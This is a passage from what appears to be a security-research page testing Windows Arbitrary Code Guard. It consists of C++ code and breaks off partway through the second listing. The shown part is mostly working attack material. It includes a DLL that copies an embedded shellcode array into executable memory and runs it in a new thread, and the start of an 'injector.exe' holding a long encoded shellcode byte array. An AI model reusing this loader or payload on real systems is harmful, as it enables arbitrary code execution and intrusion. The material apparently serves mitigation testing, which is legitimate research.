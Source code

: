 ```cpp
                "\xe1\x44\xff\xf2\x99\xd7\xf6\x26\xa8\x39\xea\xa3\x7a\x63\x1d"
                "\xa5\xc8\x05\x78\xa2\x13\x63\x19\x07\xba\x4d\xff\xf2\x3a\x7b"
                "\xd1\xb1\xa5\xe2\x7e\xe3\x2b\x62\x6f\x29\xa1\x94\x7f\xee\xf2"
                "\xea\xd1\x5b\x95\xd1\x81\x24\x84\xfe\xd8\xd0\x3e\x55\x41\x68"
                "\xf0\x25\xd1\x5b\xe4\x9a\xa3\xc2\x84\xfe\x2b\x11\x59\xbf\xe8"
                "\xe3\xc1\x8d\x05\x5c\x71\xe2\x6b\xea\xf8\xef\xb8\xdd\xea\x61"
                "\xb4\x22\x80\xcb\xe5\xe4\x57\x5a\xad\xd0\x14\x41\x90\xb8\xad"
                "\x94\x64\x5d\xae\x2b\x90\xe1\xec";

            PVOID buffer = VirtualAlloc(NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
            WriteProcessMemory(GetCurrentProcess(), buffer, shellcode, sizeof shellcode, NULL);
            CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)buffer, NULL, 0, NULL);
            MessageBoxA(NULL, "ACG not enabled - shellcode executed", "ACG not enabled - shellcode executed", 0);
        }
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```
{% endtab %}

{% tab title="injector.exe" %}
```cpp
#include <iostream>
#include <Windows.h>

int main(int argc, char *argv[]) {
    unsigned char shellcode[] =
        "\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef\xff"
        "\xff\xff\x48\xbb\x1d\xbe\xa2\x7b\x2b\x90\xe1\xec\x48\x31\x58"
        "\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xe1\xf6\x21\x9f\xdb\x78"
        "\x21\xec\x1d\xbe\xe3\x2a\x6a\xc0\xb3\xbd\x4b\xf6\x93\xa9\x4e"
        "\xd8\x6a\xbe\x7d\xf6\x29\x29\x33\xd8\x6a\xbe\x3d\xf6\x29\x09"
        "\x7b\xd8\xee\x5b\x57\xf4\xef\x4a\xe2\xd8\xd0\x2c\xb1\x82\xc3"
        "\x07\x29\xbc\xc1\xad\xdc\x77\xaf\x3a\x2a\x51\x03\x01\x4f\xff"
        "\xf3\x33\xa0\xc2\xc1\x67\x5f\x82\xea\x7a\xfb\x1b\x61\x64\x1d"
        "\xbe\xa2\x33\xae\x50\x95\x8b\x55\xbf\x72\x2b\xa0\xd8\xf9\xa8"
        "\x96\xfe\x82\x32\x2a\x40\x02\xba\x55\x41\x6b\x3a\xa0\xa4\x69"
        "\xa4\x1c\x68\xef\x4a\xe2\xd8\xd0\x2c\xb1\xff\x63\xb2\x26\xd1"
        "\xe0\x2d\x25\x5e\xd7\x8a\x67\x93\xad\xc8\x15\xfb\x9b\xaa\x5e"
        "\x48\xb9\xa8\x96\xfe\x86\x32\x2a\x40\x87\xad\x96\xb2\xea\x3f"
        "\xa0\xd0\xfd\xa5\x1c\x6e\xe3\xf0\x2f\x18\xa9\xed\xcd\xff\xfa"
        "\x3a\x73\xce\xb8\xb6\x5c\xe6\xe3\x22\x6a\xca\xa9\x6f\xf1\x9e"
        "\xe3\x29\xd4\x70\xb9\xad\x44\xe4\xea\xf0\x39\x79\xb6\x13\xe2"
        "\x41\xff\x32\x95\xe7\x92\xde\x42\x8d\x90\x7b\x2b\xd1\xb7\xa5"
        "\x94\x58\xea\xfa\xc7\x30\xe0\xec\x1d\xf7\x2b\x9e\x62\x2c\xe3"
        "\xec\x1c\x05\xa8\x7b\x2b\x95\xa0\xb8\x54\x37\x46\x37\xa2\x61"
        "\xa0\x56\x51\xc9\x84\x7c\xd4\x45\xad\x65\xf7\xd6\xa3\x7a\x2b"
        "\x90\xb8\xad\xa7\x97\x22\x10\x2b\x6f\x34\xbc\x4d\xf3\x93\xb2"
        "\x66\xa1\x21\xa4\xe2\x7e\xea\xf2\xe9\xd8\x1e\x2c\x55\x37\x63"
        "\x3a\x91\x7a\xee\x33\xfd\x41\x77\x33\xa2\x57\x8b\xfc\x5c\xe6"
        "\xee\xf2\xc9\xd8\x68\x15\x5c\x04\x3b\xde\x5f\xf1\x1e\x39\x55"
        "\x3f\x66\x3b\x29\x90\xe1\xa5\xa5\xdd\xcf\x1f\x2b\x90\xe1\xec"
        "\x1d\xff\xf2\x3a\x7b\xd8\x68\x0e\x4a\xe9\xf5\x36\x1a\x50\x8b"
        "\xe1\x44\xff\xf2\x99\xd7\xf6\x26\xa8\x39\xea\xa3\x7a\x63\x1d"
        "\xa5\xc8\x05\x78\xa2\x13\x63\x19\x07\xba\x4d\xff\xf2\x3a\x7b"
        "\xd1\xb1\xa5\xe2\x7e\xe3\x2b\x62\x6f\x29\xa1\x94\x7f\xee\xf2"
        "\xea\xd1\x5b\x95\xd1\x81\x24\x84\xfe\xd8\xd0\x3e\x55\x41\x68"
        "\xf0\x25\xd1\x5b\xe4\x9a\xa3\xc2\x84\xfe\x2b\x11\x59\xbf\xe8"
```